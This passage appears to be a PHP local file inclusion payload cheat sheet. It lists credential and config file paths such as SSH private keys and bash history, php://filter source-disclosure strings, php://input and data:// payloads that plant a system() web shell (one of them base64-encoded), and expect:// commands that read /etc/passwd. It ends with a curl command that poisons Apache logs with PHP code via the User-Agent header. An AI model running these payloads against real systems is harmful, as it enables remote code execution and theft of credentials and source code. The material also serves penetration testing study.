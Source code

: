 ### Application Configuration

```
/etc/mysql/my.cnf
/etc/postgresql/postgresql.conf
/etc/ssh/sshd_config
/home/user/.ssh/id_rsa
/home/user/.bash_history
/root/.bash_history
```

## PHP Wrappers Exploitation

### php://filter (Source Code Disclosure)

```
php://filter/read=convert.base64-encode/resource=index.php
php://filter/convert.base64-encode/resource=config.php
php://filter/read=string.rot13/resource=index.php
php://filter/read=convert.quoted-printable-encode/resource=index.php
```

### php://input (POST Data Execution)

```
POST request to: ?file=php://input
POST body: <?php system($_GET['cmd']); ?>
Then: ?file=php://input&cmd=id
```

### data:// (Direct Code Execution)

```
data://text/plain,<?php system($_GET['cmd']); ?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

### expect:// (Command Execution)

```
expect://id
expect://whoami
expect://cat /etc/passwd
```

## Log Poisoning Techniques

### Apache Access Log Poisoning

1. **Inject payload via User-Agent:**

   ```bash
   curl -A "<?php system(\$_GET['cmd']); ?>" http://target.com/
   ```

